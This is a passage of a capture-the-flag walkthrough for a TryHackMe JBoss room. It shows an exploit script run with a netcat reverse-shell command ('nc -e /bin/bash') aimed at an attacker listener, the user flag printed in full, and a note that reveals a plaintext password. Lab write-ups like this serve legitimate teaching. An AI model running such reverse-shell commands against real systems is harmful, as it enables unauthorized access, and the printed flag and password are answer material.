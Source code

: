 1. I have obtained a shell.

```
kali@kali:~/CTFs/tryhackme/Tony the Tiger/jboss$ python exploit.py 10.10.179.44:8080 "nc -e /bin/bash 10.8.106.222 9001"
[*] Target IP: 10.10.179.44
[*] Target PORT: 8080
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Command executed successfully
```

## Task 6 Find User JBoss' flag!

Knowledge of the Linux (specifically Ubuntu/Debian)'s file system structure & permissions is expected. If you are struggling, I strongly advise checking out the fantastic [TryHackMe ZTHLinux Room](http://tryhackme.com/room/zthlinux) by [lollava](http://tryhackme.com/p/lollava).

1. This flag has the formatting of "THM{}"

```
pwd
/
cd /home
grep -R "THM{" * 2>/dev/null
jboss/.jboss.txt:THM{50c10ad46b5793704601ecdad865eb06}
jboss/.bash_history:echo "THM{50c10ad46b5793704601ecdad865eb06}" > jboss.txt
```

`THM{50c10ad46b5793704601ecdad865eb06}`

## Task 7 Escalation!

Normal boot-to-root expectations apply here! It is located in /root/root.txt. Get cracking :)

1. The final flag does not have the formatting of "THM{}"

```
cd jboss
pwd
/home/jboss
ls
note
cat note
Hey JBoss!

Following your email, I have tried to replicate the issues you were having with the system.

However, I don't know what commands you executed - is there any file where this history is stored that I can access?

Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)

Password: likeaboss

Kind Regards,
CMNatic
```

